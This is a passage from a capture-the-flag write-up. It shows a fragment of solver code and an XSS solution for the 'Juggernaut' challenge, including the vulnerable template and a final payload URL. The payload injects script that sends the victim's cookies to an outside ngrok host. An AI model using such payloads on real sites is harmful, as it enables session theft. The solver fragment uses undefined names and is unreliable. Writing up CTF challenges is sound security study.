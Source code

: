 ```python:solver.py


def solve():
    time.sleep(1)
    next(len(cur))

if __name__ == "__main__":
    thread = threading.Thread(target=solve)
    thread.start()
    app.run(port=9911)
```

## ✅ Juggernaut (406pts 17solves)

There isn’t much to say about this challenge. You can inject an unsanitized string via the `name` parameter to achieve XSS (probably unintended).

```html:view.html
<script>
    const csrf_token = "{{ csrf_token() }}";
    const rawUsername=`{{ username|safe }}`;
    const paramname=`{{name_param|safe}}`;
    /* snap */
</script>
```

Final payload:
```
http://35.224.222.30:4007/view?name=`;document.location.assign(%27https://xxx.ngrok.app/?%27%2Bdocument.cookie);`&note=677181182eda6575ba9af22c49400a43
```